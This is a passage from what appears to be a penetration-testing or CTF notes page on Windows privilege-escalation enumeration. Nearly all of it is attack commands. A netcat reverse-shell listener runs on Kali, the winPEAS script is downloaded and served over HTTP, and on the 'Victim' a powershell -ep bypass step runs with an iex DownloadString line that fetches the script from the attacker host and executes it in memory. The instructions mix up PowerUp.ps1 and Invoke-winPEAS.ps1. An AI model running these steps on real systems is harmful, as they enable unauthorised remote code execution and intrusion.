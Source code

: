 ```
?>
```

**Kali**

```
rlwrap nc -lvnp 9000
```

<figure><img src="../../.gitbook/assets/image (66) (2) (1).png" alt=""><figcaption></figcaption></figure>



Load Invoke-winPEAS.ps1 into memory.

**Kali**

```
wget https://gist.githubusercontent.com/S3cur3Th1sSh1t/d14c3a14517fd9fb7150f446312d93e0/raw/2318ef41f55e7e1a2172a2e67551201c24ee7681/Invoke-winPEAS.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**Invoke-winPEAS.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/Invoke-winPEAS.ps1') 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (35) (4) (1).png" alt=""><figcaption></figcaption></figure>



Load PowerUp.ps1 into memory.

**Kali**
